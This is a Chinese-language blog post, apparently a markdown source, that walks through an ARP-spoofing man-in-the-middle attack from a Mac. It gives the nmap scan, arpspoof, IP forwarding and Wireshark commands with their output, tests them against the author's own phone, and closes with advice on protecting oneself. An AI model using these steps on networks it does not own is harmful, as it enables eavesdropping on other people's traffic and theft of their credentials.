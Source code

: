 ```yaml
---
title: Macos进行局域网arp欺骗
date: 2016-05-10 11:09:02
tags: [osx, arpspoof, wireshark]
---
```


之前知乎看到一篇通过手机app就能直接监听到局域网内的其他用户的数据包，并且自动抓取图片和嗅探密码的答案，觉得这样也能成功实在太夸张了。于是自己实现一下，App开发不来，就在Mac上进行好了（事实上用到的也都是别人写好的程序）

#### 安装工具

首先安装[Macport](https://www.macports.org/), 它是一个类似于apt-get和brew的一个包管理工具，通过port我们可以很方便的安装需要的各种工具。

如果安装之后发现仍然找不到port命令的，可以

```
export PATH=/opt/local/bin:/opt/local/sbin:$PATH
```

将其加入到系统路径里来。

port安装好之后就可以开始安装各种工具了

```
sudo port install arpspoof
sudo port install nmap
```

其实还有`sslstrip`和`ettercap`，不过后面两个更多的用于攻击，我们只需要体验一下中间人攻击就好了，~~事实上是ettercap安装不成功~~。

#### nmap扫描整个局域网段

直接执行命令

```
sudo nmap -sS 192.168.1.0/24
```

结果如下：

```
Starting Nmap 7.12 ( https://nmap.org ) at 2016-05-09 17:50 CST
Nmap scan report for 192.168.1.1
Host is up (0.0022s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
1900/tcp open  upnp
MAC Address: ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇ (Tp-link Technologies)

Nmap scan report for 192.168.1.111
Host is up (0.0062s latency).
Not shown: 999 closed ports
PORT      STATE SERVICE
62078/tcp open  iphone-sync
MAC Address: ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇ (Apple)

Nmap scan report for 192.168.1.112
Host is up (0.000017s latency).
All 1000 scanned ports on 192.168.1.112 are closed (500) or filtered (500)

Nmap done: 256 IP addresses (3 hosts up) scanned in 51.06 seconds
```

其中192.168.1.1是局域网的网关，192.168.1.111是我的手机，192.168.1.112是我的本机。这是特意趁家里只有我一个人的时候扫描的，一旦有其他人接入wifi，就会出现更多的结果。

暂时不清楚这个工具的原理，有的时候不会显示手机的结果，当然一个可能的原因是iphone待机时自动断wifi，而不是工具的锅。

扫描过后就可以通过查看路由表来查看局域网内的ip信息了

```
~netstat -r
Routing tables

Internet:
Destination        Gateway            Flags        Refs      Use   Netif Expire
default            192.168.1.254      UGSc          323        0     en0
127                localhost          UCS             1        0     lo0
localhost          localhost          UH             28  4818622     lo0
169.254            link#4             UCS             1        0     en0
192.168.1          link#4             UCS             4        0     en0
192.168.1.207      link#4             UHLWIi          1        2     en0
192.168.1.208      link#4             UHLWIi          1        2     en0
192.168.1.250/32   link#4             UCS             1        0     en0
192.168.1.254/32   link#4             UCS             2        0     en0
192.168.1.254      ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇  UHLWIir       324       16     en0    171
192.168.1.255      link#4             UHLWbI          1       12     en0
224.0.0            link#4             UmCS            2        0     en0
224.0.0.251        ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇  UHmLWI          1        0     en0
255.255.255.255/32 link#4             UCS             1        0     en0

Internet6:
Destination        Gateway            Flags         Netif Expire
localhost          localhost          UHL             lo0
fe80::%lo0         fe80::1%lo0        UcI             lo0
fe80::1%lo0        link#1             UHLI            lo0
fe80::%en0         link#4             UCI             en0
shaobos-macbook-pr ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇  UHLI            lo0
fe80::%awdl0       link#9             UCI           awdl0
shaobos-macbook-pr ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇  UHLI            lo0
ff01::%lo0         localhost          UmCI            lo0
ff01::%en0         link#4             UmCI            en0
ff01::%awdl0       link#9             UmCI          awdl0
ff02::%lo0         localhost          UmCI            lo0
ff02::%en0         link#4             UmCI            en0
ff02::%awdl0       link#9             UmCI          awdl0
```
这是我在公司未扫描时的结果，可以看到只包含部分信息，但是如果`ping`一个不在表内的ip，这个新的ip就会被添加到路由表中。

通过这个步骤，我们就能知道局域网里还有哪些机器，然后我们就可以选定一个目标，开始攻击了。

#### arp欺骗
这里选用我的手机192.168.1.111进行攻击，使用`arpspoof`。

```
arpspoof -i en0 -t 192.168.1.111 192.168.1.1
```

这个命令是告诉192.168.1.111这个机器，我是192.168.1.1，也就是你的网关，你的包就发给我吧，这样我就能在我的en0上监听到来自192.168.1.111的发包了。

但是这样一来，192.168.1.111就断网了，因为它的包发给了我，而没能转发出去。这个时候手机上会出现一个比较奇怪的现象，就是微信能收到小伙伴的消息，但是却发不出去。实测有极少量的消息还是发送出去了，可能是由于我们的arp欺骗是持续反复进行的，中间的间隙导致了包还是发给了网管。但是无论如何，这个时候目标机器的网络连接是不正常的。

#### ip转发

打开ip转发功能后，就能把192.168.1.111的包转发给网管了，命令如下：

```
sysctl -w net.inet.ip.forwarding=1
```

本来以为会有各种复杂的设置，比如哪些转发，哪些不转，比如怎么转，转到哪去之类的。结果发现，打开之后，我的手机直接就能正常上网了，丝毫没有异样。~~这时，我们就能放心大胆的进行监听而不用担心被发现了~~。

#### 抓包

抓包的方法很多，最方便的还是[wireshark](https://www.wireshark.org/)。直接监听之前设置的端口en0，然后设置过滤条件`ip.src == 192.168.1.111`，然后就可以看到目标机器的各种请求了。

这里上个监听结果的图

![](/uploads/sniffer_result.png)

其中，右上角的小图是我的朋友圈截图，大图是我在手机上点开图片之后，在Mac上监听到的请求，然后在浏览器上打开的结果。如果是在看视频，则会监听到连续的视频片段，可以一段一段下载下来看到。

#### More
当然我们这里仅仅监听了目标机器发送的包，同样的原理，我们可以欺骗网关，我们才是目标机器，这样我们就能监听到双向的消息了，而且目标机器仍然能够正常上网。

在这基础上，通过`sslstrip`可以建立假的`https`链接，这样就能明文看到本来是通过`https`加密过的消息，但是这样一来，目标机器是否还能正常使用不明，有待后续尝试。

通过`ettercap`则可以方便的完成上述过程，并且自动嗅探出其中的账号密码信息，估计就是加入一些常用的账号密码字段，或者关键字来提取的吧。

#### 防范
可以看到，这个方法的杀伤力还是很可怕的，虽然伤害范围有限，但是如果应用到出租屋，宾馆这种环境中，还是非常危险的。所以在公共场合还是尽量少的链接公共wifi。

关于防范措施，要么没必要防范，比如自己家中的wifi，设好密码不让外人连就好，要么没有权限防范，比如宾馆这种，路由不归你管。如果要在自己机器这个层面上防范暂时不知道有没有什么简单的方法，windows机器可以安装360防火墙，手机不明。

所以最好的方法还是定期修改密码，所有账号都绑定手机和安全邮箱，在公共wifi不登录敏感的账号等等。
